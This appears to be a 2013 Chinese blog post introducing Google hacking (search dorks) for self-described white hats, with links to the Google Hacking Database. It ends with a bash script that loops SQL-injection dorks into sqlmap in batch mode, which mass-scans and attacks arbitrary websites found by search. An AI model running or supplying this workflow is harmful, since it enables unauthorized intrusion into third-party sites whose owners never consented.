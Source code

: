 ```yaml
---
layout:     post
title:      白帽子第一课：Google Hacking
date:       2013-12-31 09:00:00
summary:    Google 强大的爬虫提供的不仅仅是关键词搜索的结果，稍微加点参数就能把google发挥的淋漓尽致，而这也是非常简单的，所以google hacking 也叫 google dorks，因此这应该是白帽子学习的第一种技能！
---
```


Google 强大的爬虫提供的不仅仅是关键词搜索的结果，稍微加点参数就能把google发挥的淋漓尽致，而这也是非常简单的，所以google hacking 也叫 google dorks，因此这应该是白帽子学习的第一种技能！
google提供的搜索参数非常庞大应该，wiki提供了一个常用参数的列表，而个人按照频率來说主要还是下面几个：
site, filetype, inurl, intitle
当然有的不是以参数出现的，比如"key words"就是完全匹配，还有 or , and等也很常用。

网上有个[GHDB][1]（这也[有个][2]），就是已经收集好的搜索规则，主要用于渗透前的信息收集。

个人觉得会用google比工具党來的还有技术含量点，至少这个需要强大的想象力。

看过有人用google批量找别的X阔留下的webshell，不过现在不太好使了

最黄最暴力的我估计就是批量找sql注入点和xss了，这里是别人的sql的GHDB，写成脚本，放到远程跑去，把解析回来的地址放到sqlmap里跑，爽歪歪！ 简单写了个脚本，[ghdb_sql][3]和脚本放到[sqlmap][4]目录

```bash
#!/bin/bash
cat ghdb_sql | while read line
do
        echo ==================================
        echo use $line
        echo ==================================
        ./sqlmap.py -g "$line" --batch
done
```

了解更多，请自行Google Hacking: `google hacking filetype:pdf`


  [1]: http://www.exploit-db.com/google-dorks/
  [2]: http://www.hackersforcharity.org/ghdb/
  [3]: https://cdn.int64ago.org/ghdb_sql
  [4]: http://sqlmap.org/
